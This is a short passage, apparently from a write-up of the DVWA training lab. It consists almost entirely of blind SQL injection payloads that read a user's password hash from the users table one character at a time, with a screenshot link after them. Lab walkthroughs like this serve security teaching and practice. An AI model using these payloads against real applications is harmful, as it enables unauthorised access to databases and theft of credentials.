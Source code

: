 1' and ascii(substr((select password from users limit 1 offset 4),19))=56#
1' and ascii(substr((select password from users limit 1 offset 4),20))=51#
1' and ascii(substr((select password from users limit 1 offset 4),21))=50#
1' and ascii(substr((select password from users limit 1 offset 4),22))=55#
1' and ascii(substr((select password from users limit 1 offset 4),23))=100#
1' and ascii(substr((select password from users limit 1 offset 4),24))=101#
1' and ascii(substr((select password from users limit 1 offset 4),25))=98#
1' and ascii(substr((select password from users limit 1 offset 4),26))=56#
1' and ascii(substr((select password from users limit 1 offset 4),27))=56#
1' and ascii(substr((select password from users limit 1 offset 4),28))=50#
1' and ascii(substr((select password from users limit 1 offset 4),29))=99#
1' and ascii(substr((select password from users limit 1 offset 4),30))=102#
1' and ascii(substr((select password from users limit 1 offset 4),31))=57#
1' and ascii(substr((select password from users limit 1 offset 4),32))=57#

![image](https://github.com/nahcusira/dvwa/assets/87233531/159afe27-96d7-445e-ad39-9ccb94225ab4)
